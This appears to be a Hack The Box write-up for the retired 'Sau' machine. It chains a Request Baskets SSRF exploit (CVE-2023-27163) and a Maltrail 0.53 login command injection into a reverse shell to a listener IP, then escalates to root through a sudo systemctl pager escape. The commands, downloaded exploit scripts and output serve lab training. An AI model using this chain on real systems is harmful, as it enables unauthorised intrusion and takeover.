


# sau
> HTB retired machine | Linux (easy)

First, we perform an nmap scan to detect various services.

```plaintext
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
```

Nmap detects four services, including two web servers on ports 55555 and 80. Unfortunately, port 80 is filtered and inaccessible. I connect to the server on port 55555.



This server is running Request Basket version 1.2.1, which is vulnerable to Server-Side Request Forgery (SSRF). I exploit this vulnerability using the following script:

```shell
$ wget https://raw.githubusercontent.com/mathias-mrsn/request-baskets-v121-ssrf/master/exploit.py
$ python3 exploit.py http://10.10.11.224:55555 http://127.0.0.1:80
Exploit for SSRF vulnerability on Request-Baskets (1.2.1) (CVE-2023-27163).
Exploit successfully executed.
Any request sent to http://10.10.11.224:55555/usqudt will now be forwarded to the service on http://127.0.0.1:80.
```

This exploit leverages the SSRF vulnerability, allowing access to internal and private services by sending a request to the '/api/basket/{name}' API.

Now that requests are redirected, we can send requests to the service on port 80 by targeting the basket created with the script.

Visit `http://10.10.11.224:55555/usqudt`.



The service is Maltrail version 0.53. Fortunately, this version is vulnerable to Remote Code Execution (RCE). This vulnerability arises during login, where the username field is executed in a shell, allowing code execution on the server. In this case, we use it to establish a reverse shell.

```plaintext
$ nc -lvp 9000
```
```shell
$ wget https://raw.githubusercontent.com/spookier/Maltrail-v0.53-Exploit/main/exploit.py
$ python3 maltrait_ex.py 10.10.14.50 9000 http://10.10.11.224:55555/usqudt
Running exploit on http://10.10.11.224:55555/usqudt/login
```

Now, I have a shell in the nc window.

```plaintext
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
puma@sau:/opt/maltrail$ whoami
puma
puma@sau:/opt/maltrail$ cat ~/user.txt
********************************
puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

When I execute this command as sudo, the prompt appears as if it is using the `less` command. I attempt to run a command in the `!whoami` format.

```plaintext
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!ls
!llss!ls
CHANGELOG     core    maltrail-sensor.service  plugins           thirdparty
CITATION.cff  docker  maltrail-server.service  requirements.txt  trails
LICENSE       h       maltrail.conf            sensor.py
README.md     html    misc                     server.py
```

Bingo! I can print the flag.

```plaintext
!done  (press RETURN)!cat /root/root.txt

!ccaatt  //rroooott//rroooott..ttxxtt!cat /root/root.txt
********************************
```